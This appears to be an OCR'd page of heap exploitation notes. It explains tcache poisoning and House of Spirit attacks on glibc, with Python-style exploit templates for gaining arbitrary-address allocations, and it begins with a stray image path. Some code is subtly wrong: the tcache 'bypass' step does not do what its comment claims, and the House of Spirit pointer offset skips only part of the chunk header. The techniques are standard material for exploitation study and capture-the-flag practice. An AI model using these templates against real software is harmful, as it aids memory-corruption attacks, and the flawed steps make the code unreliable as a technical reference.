 ### Tcache Poisoning (glibc >= 2.26)

Tcache (thread local cache) provides per-thread chunk caching.

```python
# Tcache poisoning example
def tcache_poison():
    # 1. Fill tcache for specific size
    chunks = []
    for i in range(7):  # Tcache holds max 7 chunks
        chunks.append(malloc(64))
    
    for chunk in chunks:
        free(chunk)
    
    # 2. Free one more to bypass tcache
    victim = malloc(64)
    free(victim)
    
    # 3. Create fake chunk
    fake_chunk = target_address
    
    # 4. Overwrite tcache entry
    edit(victim, p64(fake_chunk))
    
    # 5. Allocate to get arbitrary address
    malloc(64)  # Normal allocation
    evil_chunk = malloc(64)  # Returns fake_chunk address
    
    return evil_chunk
```

### House of Spirit

Creates a fake chunk in a controlled memory region.

```python
def house_of_spirit():
    # 1. Create fake chunk on stack or in data section
    fake_chunk = b""
    fake_chunk += p64(0)        # prev_size (unused)
    fake_chunk += p64(0x71)     # size (must be valid)
    fake_chunk += b"A" * 0x60   # fake data
    fake_chunk += p64(0x70)     # next chunk's prev_size
    
    # 2. Get pointer to fake chunk
    fake_ptr = stack_address + 8  # Skip prev_size
    
    # 3. Free the fake chunk
    free_function(fake_ptr)
    
    # 4. Allocate to get fake chunk back
    controlled_chunk = malloc(0x68)
    
    return controlled_chunk
```
